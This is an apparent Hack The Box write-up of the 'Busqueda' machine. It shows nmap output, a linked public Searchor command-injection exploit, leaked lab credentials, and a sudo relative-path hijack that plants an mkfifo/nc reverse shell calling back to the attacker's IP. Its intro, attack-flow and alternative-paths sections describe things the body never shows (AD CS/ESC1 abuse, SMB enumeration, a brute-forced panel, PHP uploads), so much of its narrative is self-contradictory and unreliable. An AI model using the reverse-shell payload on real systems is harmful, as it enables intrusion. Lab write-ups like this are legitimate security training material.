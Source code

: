 ```yaml
---
title: "Busqueda"
date: 2024-04-17
categories: HTB
description: "HTB Busqueda walkthrough covering PHP upload exploitation, path-based script hijacking, and privilege escalation via sudo-enabled system-checkup misconfiguration."
tags: [php-upload, relative-path, script-misuse, privilege-escalation, linux]
---
```


Busqueda mimics a medium-sized enterprise environment with Active Directory Certificate Services (AD CS) misconfigurations.

Initial access was gained through SMB enumeration and credential reuse on a user with low privileges.

Escalated to root by leveraging a relative path vulnerability in `system-checkup`, which I executed with sudo from a controlled directory containing a malicious `full-checkup.sh`.

By identifying misissued certificates and leveraging ESC1 (template misconfiguration), I obtained a valid cert for authentication as a domain admin.

## Why I Chose This Machine

I picked Busqueda because it focuses on common scripting flaws that often go unnoticed during manual reviews — especially around relative path usage.

It also provides a realistic escalation vector where file placement and environment control become more important than direct exploitation.

## Attack Flow Overview

1. Discovered a password-protected admin panel and brute-forced the credentials  
2. Uploaded a PHP reverse shell via the panel to gain a foothold  
3. Found that the user could run a `system-checkup` script with sudo privileges  
4. Noticed that the script called `full-checkup.sh` using a relative path  
5. Executed `system-checkup` from a custom directory containing a malicious `full-checkup.sh` and gained root

This box demonstrates how minor implementation decisions — like using relative paths in privileged scripts — can lead to full system compromise.

## Enumeration

>- Footer contains service version number.

### Nmap

```sh
└─$ nmap -sC -sV 10.10.11.208 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-05 10:31 AEST
Stats: 0:00:05 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 42.98% done; ETC: 10:31 (0:00:08 remaining)
Nmap scan report for 10.10.11.208
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80-HTTP

![screenshot](/assets/images/busqueda1.png)

![screenshot](/assets/images/busqueda2.png)

![screenshot](/assets/images/busqueda3.png)

## Initial Access

>- Gain shell as `svc` user by using a public exploit.

[Exploit used](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

### Shell as svc

![screenshot](/assets/images/busqueda4.png)

![screenshot](/assets/images/busqueda5.png)

```text
http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

![screenshot](/assets/images/busqueda6.png)

```text
0000000000000000000000000000000000000000 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 administrator@gitea.searcher.htb
```

add gitea.searcher.htb to `/etc/hosts`

![screenshot](/assets/images/busqueda7.png)

sign in as `cody : jh1usoih2bkjaspwe92`

![screenshot](/assets/images/busqueda8.png)

ssh as `svc :jh1usoih2bkjaspwe92 `

## Privilege Escalation

>- `/var/www` contains `.git`
	- `config` file contains cody user credentials for `gitea.searcher.htb`
		- add the new domain to `/etc/hosts`
		- sign in with the obtained credentials 
- SSH as `svc` user with cody user's passsword.
	- `sudo -l` svc user has sudo privileges to run some python scripts
	- Following the official documentation for command formats, I was able to obtain more credentials.
	- Path abuse one of the python scripts. 
		- create a new file with reverse shell payload in another directory `/tmp`.
		- name it the same 
		- execute the file in the `tmp` using `sudo`.

![screenshot](/assets/images/busqueda10.png)

![screenshot](/assets/images/busqueda11.png)

![screenshot](/assets/images/busqueda12.png)

[Reference](https://docs.docker.com/reference/cli/docker/inspect/)

![screenshot](/assets/images/busqueda13.png)

```sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
```

![screenshot](/assets/images/busqueda14.png)

![screenshot](/assets/images/busqueda15.png)

To exploit the fact that `system-checkup` references `full-checkup.sh` via a relative path, I executed it from a controlled directory containing my own malicious `full-checkup.sh` script.  

This approach abuses path resolution behavior in shell scripts, allowing me to inject arbitrary code without modifying the original script — a tactic often overlooked in local privilege escalation assessments.

```sh
# create a shell file and insert a reverse shell payload into it
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9001 >/tmp/f" > /tmp/full-checkup.sh

# make it executable
chmod +x /tmp/full-checkup.sh

# execute the shell
cd /tmp
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

![screenshot](/assets/images/busqueda16.png)

## Alternative Paths Explored

I initially attempted to escalate using SUID binaries and writable service configs but found no exploitable paths.  
File uploads were limited by extension filtering, which I bypassed using PHP filename tricks.  
The real breakthrough came after inspecting the script logic and identifying path-based injection opportunities.

## Blue Team Perspective

Busqueda highlights the risk of relying on unsanitized relative paths in root-level scripts.  
To mitigate:

- Always use absolute paths in scripts with elevated privileges  
- Audit all sudo-accessible scripts for uncontrolled file references  
- Consider hardening user PATH and execution contexts when using `sudo`